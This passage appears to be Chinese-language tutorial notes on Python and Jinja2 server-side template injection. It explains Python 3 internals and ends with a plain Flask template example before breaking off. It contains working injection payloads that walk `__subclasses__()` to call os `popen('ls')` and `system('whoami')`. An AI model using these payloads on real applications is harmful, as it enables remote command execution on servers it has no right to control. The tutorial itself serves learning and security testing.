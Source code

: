 >`__class__.__base__.__subclasses__()` 列表中通常不会包含 `file` 类的子类，因为在 Python 3 中，`file` 类已经被移除，不再是内置类型。
>
>在早期版本的 Python（Python 2.x）中，`file` 类用于表示文件对象，并作为内置的文件 I/O 类型。但从 Python 3 开始，`file` 类被替代为内置的 `io` 模块中的 `io.TextIOWrapper` 和 `io.BufferedIOBase` 等类。
>
>在 Python 3 中，文件 I/O 操作应该使用 `open()` 函数来打开文件，而不是直接使用 `file` 类。`open()` 函数返回一个文件对象，它是 `io.TextIOWrapper` 或 `io.BufferedIOBase` 的实例，可以用于进行文件读写操作。

>```
><class '_frozen_importlib.BuiltinImporter'>类：
>利用load_module()加载模块os进行执行命令：().__class__.__bases__[0].__subclasses__()[84]['load_module']("os")["popen"]("ls").read()
>```
>
>这里的`load_module`是一个静态方法，所以能够直接通过类调用而不用实例化对象

#### {% %}使用

```python
print(
    Template('''
        {% for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close" %}
            {{ i.__init__.__globals__['system']('whoami') }} 
        {% endfor %}
    ''').render()
)
```

{% %}是属于flask的控制语句，且以{% end.. %}结尾，可以通过在控制语句，定义变量或者写循环，判断。

index.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>{{ title }}</title>
</head>
<body>
    <h1>{{ heading }}</h1>
    <ul>
        {% for item in items %}
			{% if item == "wi1shu" %}
				<li>This is {{ item }}</li>
			{% else %}
				<li>{{ item }}</li>
			{% endif %}
        {% endfor %}
    </ul>
</body>
</html>
```

app.py
